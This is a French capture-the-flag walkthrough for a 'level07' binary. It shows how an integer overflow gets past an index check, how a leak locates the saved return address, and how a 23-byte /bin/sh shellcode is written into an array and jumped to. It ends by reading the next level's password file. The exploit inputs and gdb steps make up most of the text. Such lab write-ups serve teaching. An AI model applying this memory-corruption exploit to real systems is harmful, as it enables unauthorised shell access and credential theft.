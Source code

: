 Ce binaire etait plus difficile que les autres a exploiter.

Son fonctionnement est plutot simple : 
Il boucle a l'infini, en demandant une entree a l'utilisateur (a la maniere d'un shell). Il y a 3 commandes possibles : store, read et quit. 

store : Demande un index puis une valeur, puis stock la valeur a l'index indique.
read  : Demande un index puis lit la valeur a l'index indique.
quit  : Quitte le binaire

En desassemblant le binaire pour en savoir un peu plus, on peut noter plusieurs choses : 

Un test est effectue sur l'index que nous indiquons :` if (index % 3 == 0)` ...
Si ce test se revele etre vrai, alors un message d'erreur s'affiche nous indiquant que nous ne pouvons
pas stocker de nombre a cet index. Cela sera tres important pour la suite.

Nous voyons egalement que aucune verification n'est mise en place pour verifier la valeur que nous 
envoyons a store ou a read.
Ainsi, nous pouvons lire a des indexs ayant pour valeur une negative ou alors une valeur > 100 (le tableau de data faisant 100*4 bytes). ceci est egalement tres important pour la suite. 

Nous savons donc que nous pouvons ecrire ou nous voulons en memoire. Enfin presque, car le index % 3 nous complique la tache. Une maniere de le contourner est la suivant :

Lui passer une valeur >= au INT_MAX afin de recuperer uniquement la difference entre INT_MAX + x
Nous savons qu'en memoire notre valeur est multiplie par 4 car il s'agit d'un tableau de int (4 bytes).
Voici par exemple commnent ecrire a l'index 0 : 
`4294967295 / 4 = 1073741823 + 1 = 1073741824`. Avec cette valeur, nous pouvons ecrire a l'index 0 (data[0])
car `1073741824 % 3 == 1`. Le test est donc respecte. Nous allons utiliser cette methode pour ecrire 
aux endroits "interdits" en memoire. 

J'ai donc decide d'ecraser la sauvegarde EIP du main. Pour cela, il suffit de la leaker :

	$ gdb level07
	$ b*main+455
	$ r
	$ store
	$ i f

	eip = 0x80488ea in main; saved eip 0xf7e45513


Maintenant, nous allons dumper notre stack avec read_number jusqu'a obtention de la valeur "0x80488ea"
qui correspond a EIP du main. 

En faisant plusieurs essai avec des valeurs > 100, on se rend compte que la sauvegarde d'EIP se trouve
a l'index 114 :

	$ ./level07
	$ read
	$ 114
	
	Number at data[114] is 4158936339     <--- 0xf7e45513

Par chance, l'index 114 etait rapide a trouver. Cependant j'ai quand meme creer un script d'automatisation (voir Ressources/find_eip.sh)

Maintenant que nous avons tous ces elements, l'idee est de stocker l'adresse de notre shellcode a l'adresse
de data[0] puis d'ecraser sEIP avec l'adresse 0 de notre tableau data.
Le probleme, c'est que lors de l'execution du binaire, l'environement semble etre "efface". Le trick 
va donc etre de stocker notre shellcode (4 bytes par 4 bytes) dans les adresse de data[0] a data[5], puis, de sauter dessus en ecran sEIP par l'adresse de data[0], comme indique ci-dessus. 
Je rappel que nous ne pouvons pas ecrire a tous les index que nous souhaitons, nous allons donc parfois
devoir jouer avec l'overflow, comme indique au debut du walkthrough.

Il y a egalement un decalage memoire entre gdb et sans gdb. L'adresse de notre tableau data n'est donc pas la meme selon si on lance le binaire avec gdb ou non.
Pour la trouver, c'est assez simple. Dans gdb, il suffit de run le binaire puis de chercher, via des index negatifs, ou se trouve l'adresse du tableau.
En faisaint :

	$ gdb level07
	$ start
	$ read
	$ -9
	
On obtient : 0xffffd544 (soit l'adresse du tableau). Il suffit donc de proceder pareil hors gdb pour obtenir l'adresse de notre tableau :

	$ ./level07
	$ read
	$ -9
	=> 0xffffd564 (4294956388)

J'ai choisi le shellcode suivant (23 bytes) : http://shell-storm.org/shellcode/files/shellcode-827.php

Et voici notre exploit : 

		store
		1750122545        # \x31\xc0\x50\x68
		1073741824        # data[0] (en utilisant la methode de l'overflow)
		store
		1752379183	  # \x2f\x2f\x73\x68
		1		  # data[1]
		store
		1768042344	  # \x68\x2f\x62\x69
		2		  # data[2]
		store
		1357089134        # \x6e\x89\xe3\x50
		1073741827	  # data[3] (en utilisant la methode de l'overflow)
		store
		2967570771	  # \x53\x89\xe1\xb0
		4		  # data[4]
		store
		8441099		  # \x0b\xcd\x80	
		5
		store
		4294956388	  # adresse de data[0] 
		1073741938        # data[114] (save eip)
		quit

`cat /home/users/level08/.pass`
